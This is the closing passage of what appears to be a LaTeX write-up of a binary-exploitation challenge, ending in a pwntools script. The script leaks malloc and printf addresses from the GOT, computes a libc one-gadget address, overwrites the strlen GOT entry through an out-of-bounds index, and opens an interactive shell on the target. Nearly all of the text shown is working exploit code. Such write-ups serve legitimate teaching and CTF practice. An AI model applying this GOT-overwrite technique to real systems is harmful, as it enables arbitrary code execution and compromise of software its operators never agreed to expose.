log.info('reading the address from malloc@plt')
io.sendline(b'3\n%d'%diff)
addr = io.recvn(6) + b'\x00\x00'
log.info(f"received address {hex(u64(addr))}")
addr_malloc = u64(addr)
log.info(f'diff prinf - malloc from run: {addr_printf-addr_malloc}')

# now re-direct strlen to a gadget
diff = (address_of_strlen_got - exe.sym.eggs) // 8
addr_gadget = addr_printf - libc.sym.printf + gadgets[2]
print(f'gadget in libc: {hex(addr_gadget)}')
io.recvuntil(b'> ')
io.sendline(b'4\n%d'%diff)
io.sendline(p64(addr_gadget))

io.interactive()
\end{minted}
}


\end{document}
